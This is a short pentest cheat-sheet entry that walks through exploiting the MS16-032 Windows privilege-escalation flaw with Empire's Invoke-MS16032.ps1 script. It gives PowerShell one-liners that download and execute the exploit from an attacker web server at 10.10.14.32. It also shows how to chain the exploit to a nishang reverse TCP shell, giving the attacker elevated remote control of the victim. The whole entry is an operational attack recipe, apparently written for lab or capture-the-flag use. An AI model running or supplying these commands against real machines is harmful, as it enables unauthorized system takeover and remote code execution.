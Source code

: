 # MS16-032 Drivers EOP

source: [https://github.com/EmpireProject/Empire/raw/master/data/module\_source/privesc/Invoke-MS16032.ps1](https://github.com/EmpireProject/Empire/raw/master/data/module_source/privesc/Invoke-MS16032.ps1)

1\) Edit ps script at the end of the content to include the following command for executing exploit to trigger nishang reverse powershell \([https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)\) which is renamed as `shell.ps1`

```text
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1')"
```

2\) Host this file in webserver in your kali machine, you should also host a tcp reverse named `shell.ps1`

3\) In victim machine, run command :

```text
IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/Invoke-MS16032.ps1')
```

